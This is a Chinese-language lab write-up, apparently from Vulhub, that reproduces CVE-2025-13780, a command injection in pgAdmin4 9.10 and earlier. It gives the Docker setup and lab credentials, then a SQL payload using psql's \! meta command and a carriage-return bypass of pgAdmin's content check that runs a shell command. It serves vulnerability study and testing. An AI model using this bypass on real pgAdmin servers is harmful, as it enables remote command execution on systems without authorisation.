







# pgAdmin4 <= 9.10 后台命令注入漏洞 (CVE-2025-13780)

pgAdmin是一个流行且功能丰富的开源PostgreSQL数据库管理和开发平台，广泛被数据库管理员和开发者用于通过Web界面管理PostgreSQL数据库。

pgAdmin4 9.11版本之前存在一个远程代码执行漏洞。pgAdmin4的restore功能使用`psql`命令行程序执行用户上传的纯文本格式sql文件。攻击者可以利用特殊字符绕过pgAdmin4对文件内容的安全检查，在sql文件中嵌入meta command (`\!`)，使`psql`程序执行系统命令。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2025-13780>
- <https://github.com/advisories/ghsa-fxmw-jcgr-w44v>
- <https://github.com/pgadmin-org/pgadmin4/issues/9368>
- <https://github.com/pgadmin-org/pgadmin4/commit/d5a909f14cb9713d89b49481ad1929fad89f4576>

## 环境启动

执行以下命令启动pgAdmin4 9.10服务器和PostgreSQL数据库：

```bash
docker compose up -d
```

服务器启动后，访问<http://localhost:5050/>进入pgAdmin4登录页面。pgAdmin4的登录凭据为`vulhub@example.com:vulhub`。

利用此漏洞需要一个可访问的PostgreSQL数据库实例。PostgreSQL数据库已包含在docker-compose.yml中，并已在pgAdmin4的服务器列表中预配置，凭据为`vulhub:vulhub`。

## 漏洞复现

点击"Services -> main -> databases -> vulhub -> Restore"打开数据库恢复工具：



尝试上传一个含有meta command (`\!`)的sql文件：

```sql
SELECT 1;
\! bash -c 'touch /tmp/hacked1'
```



format选用PLAIN并执行Restore：



可以看到被安全检查拦截：



将文件中的新行替换为CR(`\r`)，即可绕过该安全检查：

```bash
echo -ne "SELECT 1;\r\\! bash -c 'touch /tmp/hacked2'\r" > payload.sql
```

重新上传并执行：



可以看到容器的`/tmp`目录下有`hacked`文件，系统命令被成功执行：





